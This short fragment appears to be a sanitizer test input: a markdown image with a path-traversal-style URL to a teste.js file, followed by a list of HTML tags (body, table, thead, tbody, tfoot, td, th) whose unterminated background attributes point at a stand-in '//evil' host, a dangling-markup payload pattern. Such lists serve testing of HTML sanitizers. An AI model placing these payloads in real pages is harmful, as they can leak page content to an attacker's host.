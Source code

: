 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<body background="//evil?
<table background="//evil?
<table><thead background="//evil?
<table><tbody background="//evil?
<table><tfoot background="//evil?
<table><td background="//evil?
<table><th background="//evil?

